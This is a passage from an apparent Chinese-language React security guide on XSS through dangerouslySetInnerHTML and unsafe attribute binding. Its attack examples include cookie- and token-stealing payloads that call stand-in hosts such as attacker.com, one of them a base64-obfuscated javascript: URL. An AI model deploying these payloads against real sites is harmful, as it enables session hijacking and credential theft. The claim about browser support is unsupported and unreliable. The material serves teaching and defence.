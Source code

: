 ```
function UnsafeComponent() {
  return <div dangerouslySetInnerHTML={{ __html: userContent }} />;		// 高风险
}
```

  
攻击示例：  

```
// 经典 XSS
userContent = '<img src=x onerror=&#34;stealCookies()&#34;>';


// SVG 向量攻击
userContent = '<svg xmlns=&#34;http://www.w3.org/2000/svg&#34;><script>alert(1)</script></svg>';


// 现代攻击 (窃取数据)
userContent = `
  <iframe style=&#34;display:none&#34; src=&#34;https://attacker.com/log?data=${btoa(document.cookie)}&#34;>
`;
```

#### 不安全属性绑定  

```
// URL 注入
<a href={userControlledUrl}>点击</a>		// 点击触发脚本


// 事件处理器注入
<button onClick={userHandler}>执行</button>


// 样式注入
<div style={{ background: userBackground }}></div>
```

  
攻击示例：  

```
// 链接劫持 (50% 现代浏览器仍支持)
userControlledUrl = &#34;javascript:eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vYXR0YWNrZXItc2l0ZS5jb20vP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZQ=='));&#34;;


// 高阶攻击 (绕过检测)
userHandler = () => {
  setTimeout(() => {
    new Function('alert(1)')();
  }, 3000);
};


// CSS 数据窃取
userBackground = `url('https://attacker.com/steal?data=${btoa(localStorage.getItem('token'))}')`;
```
